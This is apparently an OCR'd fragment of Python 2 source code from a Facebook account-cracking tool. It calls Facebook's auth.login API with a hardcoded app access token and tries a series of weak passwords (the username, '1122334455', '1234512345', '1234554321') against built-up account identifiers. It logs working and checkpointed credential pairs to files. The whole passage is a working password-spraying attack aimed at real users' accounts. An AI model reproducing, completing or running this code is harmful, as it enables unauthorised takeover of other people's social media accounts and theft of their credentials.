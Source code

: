         try:
            pass1 = user
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;91m[SUCCESSFULLL]\x1b[1;91m ' + k + c + user + ' >>> ' + pass1 + '\n' + '\n'
                okb = open('save/successfull.txt', 'a')
                okb.write(k + c + user + '>>>' + pass1 + '\n')
                okb.close()
                oks.append(c + user + pass1)
            elif 'www.facebook.com' in q['error_msg']:
                print '\x1b[1;92m[SUCCESSFULL]\x1b[1;92m ' + k + c + user + ' >>> ' + pass1 + '\n'
                cps = open('save/SUCCESSFULLL.txt', 'a')
                cps.write(k + c + user + '>>>' + pass1 + '\n')
                cps.close()
                cpb.append(c + user + pass1)
            else:
                pass2 = '1122334455'
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;91m[SUCCESSFULLL]\x1b[1;91m ' + k + c + user + ' >>> ' + pass2 + '\n' + '\n'
                okb = open('save/successfull.txt', 'a')
                okb.write(k + c + user + '>>>' + pass2 + '\n')
                okb.close()
                oks.append(c + user + pass2)
            elif 'www.facebook.com' in q['error_msg']:
                print '\x1b[1;92m[SUCCESSFULLL]\x1b[1;92m ' + k + c + user + ' >>> ' + pass2 + '\n'
                cps = open('save/SUCCESSFULLL.txt', 'a')
                cps.write(k + c + user + '>>>' + pass2 + '\n')
                cps.close()
                cpb.append(c + user + pass2)
            else:
                pass3 = '1234512345'
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass3 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;91m[SUCCESSFULLL]\x1b[1;91m ' + k + c + user + ' >>> ' + pass3 + '\n' + '\n'
                okb = open('save/successfull.txt', 'a')
                okb.write(k + c + user + '>>>' + pass3 + '\n')
                okb.close()
                oks.append(c + user + pass3)
            elif 'www.facebook.com' in q['error_msg']:
                print '\x1b[1;92m[SUCCESSFULLL]\x1b[1;92m ' + k + c + user + ' >>> ' + pass3 + '\n'
                cps = open('save/SUCCESSFULLL.txt', 'a')
                cps.write(k + c + user + '>>>' + pass3 + '\n')
                cps.close()
                cpb.append(c + user + pass3)
            else:
                pass4 = '1234554321'
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass4 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;91m[SUCCESSFULLL]\x1b[1;91m ' + k + c + user + ' >>> ' + pass4 + '\n' + '\n'
                okb = open('save/successfull.txt', 'a')
                okb.write(k + c + user + '>>>' + pass4 + '\n')